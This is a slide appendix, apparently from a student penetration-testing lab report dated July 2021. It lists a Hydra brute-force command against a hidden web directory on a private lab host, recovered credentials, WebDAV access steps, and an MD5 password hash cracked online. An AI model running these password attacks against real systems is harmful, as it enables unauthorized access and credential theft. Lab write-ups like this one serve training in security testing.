

# APPENDIX 1: codes and resources
*Continued
**Brute force the password for the hidden directory using Hydra**: >
 hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/`
host: 192.168.1.105
login: ashton password: leopoldo - Login to secret folder:
          192.168.1.105/company_folders/secret_folder/
login: ashton password: leopoldo -
 Read file: connect_to_corp_server instructions for accessing server :
In Kali, navigate to Network File Manager/Browse Network dav://192.168.1.105/webdav/
 - Breaking the hashed password for Ryan’s account with the https://crackstation.net/ website:
 Hash 							Type 				Result
d7dad0a5cd7c8376eeb50d69b3ccd352 		md5 				linux4u
OLANREWAJU IGE JULY, 2021